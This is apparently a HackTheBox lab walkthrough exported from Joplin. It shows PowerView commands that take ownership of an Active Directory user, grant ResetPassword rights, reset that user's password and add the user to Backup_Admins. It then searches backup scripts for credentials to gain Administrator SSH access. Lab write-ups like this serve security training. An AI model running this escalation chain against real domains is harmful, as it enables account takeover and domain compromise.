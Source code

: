 Use the function Set-DomainObjectOwner to be owner of Herman

> Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico

Then obtain all the rights and permissions to Herman

> Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity nico -Rights ResetPassword -Verbose

Create new password for Herman

> $pass = ConvertTo-SecureString 'PleaseSubscribe!' -AsPlainText -Force
> 
> Set-DomainUserPassword Herman -AccountPassword $pass -Verbose

Attempt to login with Herman using SSH and you are able to login; Use PowerView ability Get-DomainGroup to view group membership

If we use Nico and check on the Groups Herman is in, you will not see backup admins

![97a8b9a4d800a9a07d88ab3a87afb2d4.png](:/2993904f26044af3824946238f98bd78)

Now we add Herman into the backup domain group

> $cred = New-Object System.Management.Automation.PSCredential('HTB\\Herman', $pass)
> 
> Add-DomainGroupMember -Identity 'Backup_Admins' -Members Herman -Credential $cred

![13a6499fd11154c334afd90775a8054b.png](:/9099b5055e4447dbbb0af140ac3fab59)

Now we are able to see administrators folders and get the proof in desktop, but we will get access denied

![8cb6c411b5bc5c515d44b45215c97381.png](:/6e9584ba97a9417094f4464b6f22c4e1)

## Enumerate Desktop

There is a backup scripts folder; We can enumearte the folder for password

> type * | findstr password 

![30631f26622b8390c5d7a015c29e37da.png](:/2bb7d520a196452a80d9a64ebb6ca1f2)

Test Administrator SSH login and can read root

![764326d6890aafeb207acc1ecb254f0c.png](:/8a06495797a646e0a36197fef45fabb4)

id: f21c6f5f2f59420ca228482d82081874
parent_id: 3305ced1fb6949afa3e15d5355c1c230
created_time: 2022-01-17T10:13:52.317Z
updated_time: 2022-01-19T15:56:34.395Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-17T10:13:52.317Z
user_updated_time: 2022-01-19T15:56:34.395Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
